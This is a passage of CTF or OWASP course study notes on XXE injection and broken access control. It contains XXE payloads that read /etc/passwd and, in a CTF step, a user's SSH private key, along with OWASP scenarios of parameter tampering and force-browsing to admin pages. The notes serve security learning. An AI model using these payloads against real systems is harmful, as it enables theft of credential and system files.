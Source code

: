 As we can see we are defining a `ENTITY` called `name` and assigning it a value `feast`. Later we are using that ENTITY in our code.
2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to SYSTEM and path of the file. If we use this payload then a website vulnerable to XXE(normally) would display the content of the file `/etc/passwd`


In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.
## CTF
```
<!DOCTYPE key [<!ENTITY read SYSTEM 'file:////home/falcon/.ssh/id_rsa'>]><key>&read;</key>
```
get the frist 18


# Day 5 Broken Access Control 
A regular visitor being able to access protected pages, can lead to the following:
- Being able to view sensitive information
- Accessing unauthorized functionality

OWASP have a listed a few attack scenarios demonstrating access control weaknesses:


**Scenario #1**: The application uses unverified data in a SQL call that is accessing account information:
```js
pstmt.setString(1, request.getParameter("acct"));
ResultSet results = pstmt.executeQuery( );
```
An attacker simply modifies the ‘acct’ parameter in the browser to send whatever account number they want. If not properly verified, the attacker can access any user’s account.
http://example.com/app/accountInfo?acct=notmyacct



**Scenario #2**: An attacker simply force browses to target URLs. Admin rights are required for access to the admin page.
- http://example.com/app/getappInfo
- http://example.com/app/admin_getappInfo
If an unauthenticated user can access either page, it’s a flaw. If a non-admin can access the admin page, this is a flaw 

**To put simply, broken access control allows attackers to bypass authorization which can allow them to view sensitive data or perform tasks as if they were a privileged user.**

### Insecure Direct Object Reference (IDOR)
![brokenauth](https://i.imgur.com/v7GuE3d.png)
